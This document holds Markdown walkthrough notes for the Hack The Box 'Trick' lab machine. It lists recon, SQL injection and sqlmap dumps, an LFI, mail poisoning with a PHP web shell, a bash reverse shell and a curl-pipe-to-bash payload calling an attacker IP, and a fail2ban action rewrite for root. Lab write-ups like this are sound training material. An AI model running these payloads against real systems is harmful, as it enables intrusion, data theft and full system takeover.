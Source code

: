 # 🧙 HTB: Trick – Walkthrough Command Notes

---

## 🔍 Recon

### Nmap Full Scan
```bash
nmap -p- --min-rate 10000 10.10.11.166
nmap -p 22,25,53,80 -sCV 10.10.11.166
```

### DNS Recon
```bash
dig +noall +answer @10.10.11.166 trick.htb
dig +noall +answer @10.10.11.166 -x 10.10.11.166
dig axfr trick.htb @10.10.11.166
```

### Subdomain Fuzz
```bash
wfuzz -u http://10.10.11.166 -H "Host: FUZZ.trick.htb" \
-w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hh 5480

# Looking for preprod-* subdomains:
wfuzz -u http://10.10.11.166 -H "Host: preprod-FUZZ.trick.htb" \
-w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hh 5480
```

---

## 📨 [SMTP](SMTP.md) Enumeration

### Manual
```bash
telnet 10.10.11.166 25
VRFY root
VRFY michael
```

### Automated
```bash
smtp-user-enum -m VRFY -U /usr/share/seclists/Usernames/cirt-default-usernames.txt -t 10.10.11.166
```

---

## 📂 Web Enumeration

### Feroxbuster
```bash
feroxbuster -u http://trick.htb -x php
```

---

## 💉 Auth Bypass & SQL Injection

### SQL Bypass Payload
```sql
username=' OR 1=1-- -
```

### sqlmap Usage
```bash
# Basic
sqlmap -r login.req --batch --technique=B --level 5

# Dump user table
sqlmap -r login.req --batch --threads 10 -D payroll_db -T users --dump

# File Read
sqlmap -r login.req --batch --threads 10 --file-read=/etc/passwd
sqlmap -r login.req --batch --threads 10 --file-read=/etc/nginx/sites-enabled/default
```

---

## 🌐 preprod-marketing.trick.htb - LFI

### Basic LFI Payload
```http
?page=....//....//....//....//etc/passwd
```

### Mail Poisoning via PHP Include
```bash
swaks --to michael --from attacker@htb.local \
--header "Subject: trick" --body "<?php system($_REQUEST['cmd']); ?>" \
--server 10.10.11.166
```

Then access:
```
http://preprod-marketing.trick.htb/index.php?page=....//....//....//....//var/mail/michael&cmd=id
```

---

## 🐚 Reverse Shell (via mail or logs)

### Bash Reverse Shell Payload
```bash
bash -i >& /dev/tcp/10.10.14.6/443 0>&1
```

### Send via curl
```bash
swaks --to michael --from attacker@htb \
--body "<?php system('curl http://10.10.14.6/shell | bash'); ?>" \
--server 10.10.11.166
```

### Listener
```bash
nc -lnvp 443
```

---

## 🔐 SSH Access as michael

### Save Private Key
Paste into `~/keys/trick-michael`, then:
```bash
chmod 600 ~/keys/trick-michael
ssh -i ~/keys/trick-michael michael@trick.htb
```

---

## 🛡️ PrivEsc: fail2ban Exploit

### Enumerate fail2ban Config
```bash
sudo -l
cat /etc/fail2ban/jail.conf
cat /etc/fail2ban/action.d/iptables-multiport.conf
```

### Overwrite Action
Edit `/etc/fail2ban/action.d/iptables-multiport.conf`:
```bash
actionban = cp /bin/bash /tmp/rootbash; chmod 4777 /tmp/rootbash
```

### Restart fail2ban
```bash
sudo /etc/init.d/fail2ban restart
```

### Trigger Ban from Attacker Box
```bash
crackmapexec ssh trick.htb -u user -p /usr/share/wordlists/rockyou.txt
```

### Root Shell via SetUID Bash
```bash
/tmp/rootbash -p
id
```

---

## 🏁 Flags

```bash
# As michael
cat ~/user.txt

# As root
cat /root/root.txt
```